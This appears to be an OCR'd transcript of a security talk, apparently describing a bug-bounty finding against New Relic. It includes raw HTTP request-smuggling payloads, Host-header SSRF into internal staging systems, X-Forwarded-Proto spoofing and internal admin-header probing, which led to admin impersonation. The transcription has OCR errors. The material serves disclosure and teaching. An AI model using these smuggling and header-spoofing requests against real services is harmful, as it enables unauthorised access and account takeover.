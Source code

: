 ```HTTP

POST /login HTTP/1.1
Host: login.newrelic.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
...
login[pass]=1234&login[email]=asdfPOST /login HTTP/1.1
			                      Host: login.newrelic.com
```
then when I sent  my follow-up request, it effectively got  concatenated into the email address that  I was trying to login with.  
~~~RESPONSE
please ensure that your email and password are correct.
<input id="email" value="asdfPOST 
/login HTTP/1.1 
Host: login.newrelic.com
X-Forwarded-For: 81.139.39.150
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECHDE-RSA-AES128
x-nr-external-service: external

~~~
the  response that I got from the server, contained the entirety of my second  request including all of the headers  that the front-end had stuck on to that request. some of those are going to  come in really useful on the next slide. so on New Relic it became evident that  the backend system wasn't the actual  most back-end back-end, it was a reverse  proxy. so by changing the host header, I could access different internal  systems, I basically had SSOF using the  quest smuggler.
~~~
GET / HTTP/1.1                        -> HTTP/1.1 301 Movev Permanently   
Host: staging-alerts.newrelic.com        Location: https://staging-alerts.newrelic.om/  
~~~
however pretty much all of these systems, responded with this redirect  to  HTTPS because they thought my request  was being sent over HTTP,  but by looking  at the previous slide  getting the X Forwarded proto header and  sticking that on there I could tell them  yeah I'm using HTTPS you can trust me  and actually gain access to those  systems 
~~~
GET / HTTP/1.1                        -> HTTP/1.1 404 Not fount x  
Host: staging-alerts.newrelic.com        Action Controller: Exception caught
X-Forwarded-Proto: https
~~~
I went exploring and I found  a page that gave me a incredibly  taunting error message. it said not  authorized with header, then I had a  colon, but it didn't tell me what the  name of the header that I wasn't  authorized with actually was.
~~~
GET / HTTP/1.1                        -> HTTP/1.1 200 ok    
Host: staging-alerts.newrelic.com        Not authorized with header
X-Forwarded-Proto: https
~~~
I  went exploring look through the headers  I'd already discovered the names of and  I tried the XXNR external service  header and that actually just made the  problem worse. 
~~~
GET / HTTP/1.1                        -> HTTP/1.1 403 forbidden    
Host: staging-alerts.newrelic.com        
X-Forwarded-Proto: https
X-nr-external-service: 1
~~~
at this point I could  have tried that request reflection  technique on loads of different  endpoints on different New Relic systems  until I discovered this header. but I was  feeling kind of lazy at this point so I  decided instead I was gonna cheat and  consult my notes from last time I  compromised new relic.
that revealed the service gateway  account ID and service gateway is New  Relic admin headers. so using those I was  able to gain full access to their core  internal API and impersonate any user on  the entire system as an admin and gain  pretty much full control over everything  and I got a reasonable bounty for that 